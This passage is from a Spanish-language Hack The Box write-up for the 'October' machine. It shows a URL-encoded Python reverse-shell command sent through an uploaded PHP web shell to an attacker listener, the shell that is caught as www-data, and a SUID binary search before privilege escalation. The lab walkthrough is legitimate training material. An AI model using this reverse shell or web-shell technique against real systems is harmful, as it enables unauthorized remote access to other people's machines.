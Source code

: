 ![""](/assets/images/htb-october/october-python.png)

Ahora si, lanzamos la reverse shell y nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.16/storage/app/media/k4mishell.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.16%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.16] 49506
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

No encontramos dentro de la máquina como el usuario **www-data** y podemos visualizar la flag (user.txt). Como siempre, para trabajar más comodos, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora nos queda escalar privilegios y enumeramos un poco el sistema.

```bash
www-data@october:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@october:/$ sudo -l
[sudo] password for www-data: 
www-data@october:/$ cd /
www-data@october:/$ find \-perm -4000 2>/dev/null
./bin/umount
./bin/ping
./bin/fusermount
./bin/su
./bin/ping6
./bin/mount
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/pkexec
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/traceroute6.iputils
./usr/bin/mtr
./usr/bin/chsh
./usr/bin/at
./usr/sbin/pppd
./usr/sbin/uuidd
./usr/local/bin/ovrflw
www-data@october:/$
```
